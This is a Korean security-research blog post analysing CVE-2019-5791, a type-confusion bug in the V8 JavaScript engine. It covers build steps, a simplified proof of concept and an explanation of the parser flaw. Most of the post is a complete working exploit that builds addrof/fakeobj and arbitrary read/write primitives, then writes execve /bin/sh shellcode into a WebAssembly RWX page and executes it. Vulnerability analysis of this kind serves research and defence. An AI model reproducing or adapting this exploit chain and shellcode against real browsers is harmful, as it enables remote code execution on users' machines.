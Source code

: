 ```yaml
---
layout: post
title: CVE-2019-5791 1day analysis
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드
- POC 분석
- Exploit
- 레퍼런스


## 빌드

```bash
git clone <https://chromium.googlesource.com/chromium/tools/depot_tools.git>
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout b267f94ffca9fb90d04ffa03c910d8508c20dd26
gclient sync
build/install-build-deps.sh
tools/dev/gm.py x64.release
```

## POC 분석

- POC 코드

  - https://bugs.chromium.org/p/chromium/issues/detail?id=926651

  - 총 2가지의 POC가 존재한다.

  - 근데 이 POC들은 조금 복잡하게 표현되어 있어서 단순화 시키면 다음과 같다.

    ```jsx
    call = function (code) {
    	try { code(); } catch (e) { console.log(e); }
    }
    
    function run() {
        const f = (v1 = (function() {
    		var v2 = 0;
    	    var v3 = 0;
        	if (asdf) { return; } else { return; }
        	(function() { print("not trigger") });
    	    (function() { v3 = 'A'.repeat(5000); v2 = [1, 2, 3, 4, 5, 6] });
    		})()) => 1;
    	f();
    }
    
    let oob = {};
    
    %DebugPrint(oob);      // Object map
    %DebugPrint(run);      // JSFunction
    
    call(() => (run()));
    call(() => (run()));
    
    %DebugPrint(oob);      // JSArray[6] (v2)
    %DebugPrint(run);      // Array map
    
    run[13] = 0x41414141   // oob!!
    print(oob.length)
    ```

- call 함수로 run 함수를 2번 트리거하면 oob 객체는 v2라는 JSArray로, run 함수의 Map이 Array로 바뀌어 있다.

- 이 버그는 js 코드를 파싱하고 AST를 만드는 과정에서 최적화를 하려다 꼬인 경우이다.

- run 함수 내엔 두 가지의 익명 함수가 정의되어 있다.

  - 이 중 첫 번째 익명 함수는 트리거되지 않는다.
  - 두 번째 익명 함수는 run 함수가 2번째 call될 때 호출된다.
    - `v3 = 'A'.repeat(5000);` 가 실행되면 run 함수의 map이 Array map으로 변경되며 type confusion이 발생한다.
    - `v2 = [1, 2, 3, 4, 5, 6]` 가 실행되면 oob 객체가 지금 선언한 v2로 바뀐다.


- run 함수의 map이 Array map으로 바뀌게 되었고 13번째 인덱스 부분을 수정하면 v2로 변한 oob의 length를 바꿀 수 있게되어서 oob가 생긴다.

- oob가 트리거 되는 확률은 높지않다.

  - 힙쪽 oob인데, 여러 쓰레드에서 하나의 힙을 사용하다보니 힙 구성이 그때그때 달라지기 때문이다.

## Exploit

- 현 POC에선 oob가 발생하는 배열이 float가 아니어서 oob read가 되지 않는다. 그래서 v2를 float 배열로 바꿔준 후 디버깅을 통해 length offset을 다시 찾아서 0x41414141로 변경해주어야 한다.

- 그리고 obj_arr과 float_arr을 생성해서 `addrof`와 `fakeobj`를 만들어야하는데, 이 배열을 v2 바로 뒤에 생성하는게 oob 배열에서 접근하는 것이 더 편했다.

- 이제 oob 배열을 통해 `obj_arr_map`과 `float_arr_map`을 leak하고 type confusion을 일으켜서 addrof와 fakeobj를 구현하고 aar과 aaw를 만들어서 익스 하면 끝이다.

- rwx의 offset은 버전마다 달라져서 디버깅을 해보니 현 버전에선 `wasm_i_addr+0xf0n` 이었다. (vmmap으로 rwx 영역 확인 후 search -t qword rwx영역 으로 검색)

- 익스코드

  ```jsx
  call = function (code) {
  	try { code(); } catch (e) { console.log(e); }
  }
  
  function run() {
      const f = (v1 = (function() {
  		var v2 = 0;
  	    var v3 = 0;
      	if (asdf) { return; } else { return; }
      	(function() { print("not trigger") });
  	    (function() {
  				v3 = 'A'.repeat(5000);
  				v2 = [1.1, 1.2, 1.3, 1.4];
  				obj_arr = [{}].slice();
  				float_arr = [1.1, 1.2, 1.3, 1.4];
  			});
  	})()) => 1;
  	f();
  }
  
  let oob = {};
  
  call(() => (run()));
  call(() => (run()));
  
  run[19] = 0x41414141;
  print('oob.length: ' + hex(oob.length));
  
  var buf = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  
  function ftoi(val) { 
      f64_buf[0] = val;
      return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
  }
  
  function itof(val) { 
      u64_buf[0] = Number(val & 0xffffffffn);
      u64_buf[1] = Number(val >> 32n);
      return f64_buf[0];
  }
  
  function hex(b) {
  	return ('0x' + b.toString(16));
  }
  
  if (oob.length == 0x41414141) {
  	obj_arr_map = oob[28];
  	float_arr_map = oob[38];
  
  	print("float_arr_map: " + hex(ftoi(float_arr_map)));
  	print("obj_arr_map: " + hex(ftoi(obj_arr_map)));
  
  	var arb_rw_arr = [float_arr_map, 0, 1.3, 8];
  
  	function addrof(obj) {
  		obj_arr[0] = obj;
  		oob[28] = float_arr_map;
  		let addr = obj_arr[0];
  		oob[28] = obj_arr_map;
  		return ftoi(addr);
  	}
  
  	function fakeobj(addr) {
  		float_arr[0] = itof(addr);
  		oob[38] = obj_arr_map;
  		let fake = float_arr[0];
  		oob[38] = float_arr_map;
  
  		return fake;
  	}
  
  	function aar(addr) {
      	if (addr % 2n == 0)
  			addr += 1n;
  
      	let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
  
      	return ftoi(fake[0]);
  	}
  
  	function aaw_init(addr, val) {
      	fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
      	fake[0] = itof(BigInt(val));
  	}
  
  	var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
  	var wasm_mod = new WebAssembly.Module(wasm_code);
  	var wasm_instance = new WebAssembly.Instance(wasm_mod);
  	var f = wasm_instance.exports.main;
  	var wasm_i_addr = addrof(wasm_instance);
  	var rwx = aar((wasm_i_addr)+0xf0n);
  
  	print('rwx: ' + hex(rwx));
  
  	var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  	var shellcode_buf = new ArrayBuffer(0x100);
  	var dataview = new DataView(shellcode_buf);
  	aaw_init(addrof(shellcode_buf)+0x20n, rwx);
  
  	for (var i=0; i<shellcode.length; i++) {
  		dataview.setUint32(4*i, shellcode[i], true);
  	}
  	f();	
  }
  ```

## 레퍼런스

-  https://bugs.chromium.org/p/chromium/issues/detail?id=926651
